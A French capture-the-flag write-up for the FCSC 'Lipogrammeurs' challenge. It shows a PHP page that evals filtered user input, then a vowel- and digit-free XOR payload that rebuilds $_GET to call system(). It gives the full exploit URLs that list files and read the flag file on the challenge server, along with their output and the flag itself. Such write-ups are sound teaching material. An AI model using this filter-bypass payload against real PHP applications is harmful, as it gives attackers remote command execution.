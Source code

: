 # <center><b>Lipogrammeurs</b></center>
</br>
<blockquote>Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?
</blockquote>

Nous arrivons donc sur une page web ne contenant que ce code php :

     <?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }

Le code va vérifier le paramètre que l'on donne à 'code' pour soit retourner une erreur soit executer ce que l'on a mis en paramètre.
<br><br>
On devine alors que la faille se situe au niveau de la fonction eval(), mais on devine aussi que preg_match() va filtrer chaque caractère que l'on va entrer, ce qui va compliquer l'exploitation de la faille.
<br>
Notre payload ne doit donc pas être constitué de voyelles ou encore de nombres.
<br>
J'ai alors utilisé ce payload : 
    
    "";$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

Ce payload est equivalent à :
    
    $_= '$<>/' ^ '{{{{'; // $_ = '_GET'
    ${_GET}[_](${_GET})[__];
    $_GET[_]($_GET[__])

Après il suffit d’envoyer en GET nos commande comme ceci :  
    
    _=system&__=ls%20-a

Notre lien final devrai donc ressembler à ça :

    http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%22%22;$_=%27$%3C%3E/%27^%27{{{{%27;${$_}[_](${$_}[__]);&_=system&__=ls%20-a

Nous obtenons donc comme réponse 

    . .. .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php index.php

Tiens, voilà un fichier intéressant, essayons de le lire.

    http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%22%22;$_=%27$%3C%3E/%27^%27{{{{%27;${$_}[_](${$_}[__]);&_=system&__=cat%20.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php

On affiche le code source, et paf notre flag :

    FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}
